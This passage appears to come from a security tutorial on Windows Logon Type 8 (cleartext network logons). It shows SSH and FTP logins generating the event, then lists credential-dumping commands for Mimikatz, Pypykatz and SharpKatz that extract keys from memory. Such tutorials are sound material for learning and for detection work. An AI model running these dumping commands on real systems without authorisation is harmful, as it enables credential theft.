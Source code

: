 Once we gain access to the remote machine using SSH, we can see in the below screenshot that Logon Type 8 event gets generated

![](https://static.wixstatic.com/media/8b80b6_426a7ca1af354acc86a33d72f7954522~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

SSH NetworkClearText Logon Event

FTP is a file transfer protocol that is used for transferring files. We will use Student66 user to authenticate to the remote FTP service.

![](https://static.wixstatic.com/media/8b80b6_8adc49c9238c49ed87f15ba7f256cf7d~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

FTP

Once we authenticate to the FTP service, we can see in the below screenshot that the Logon Type 8 event gets generated.

![](https://static.wixstatic.com/media/8b80b6_1f01398324144fc585eaf0706c1ce9ee~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

FTP NetworkClearText Logon Event

**Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands for extracting the credentials.

```
privilege::debug
sekurlsa::ekeys

```

![](https://static.wixstatic.com/media/8b80b6_5683e928f88f4f9694a64c86afc52b1c~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

**Using Pypykatz**

We can use the below mentioned [Pypykatz](https://github.com/skelsec/pypykatz) commands for extracting the credentials.

```
pypykatz.exe live lsa

```

![](https://static.wixstatic.com/media/8b80b6_0733e8a762a34b52a498c0f420e5cbe3~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Pypykatz

**Using Sharpkatz**

We can use the below mentioned [Sharpkatz](https://github.com/b4rtik/SharpKatz) commands for extracting the credentials.

```
SharpKatz.exe --Command ekeys

```
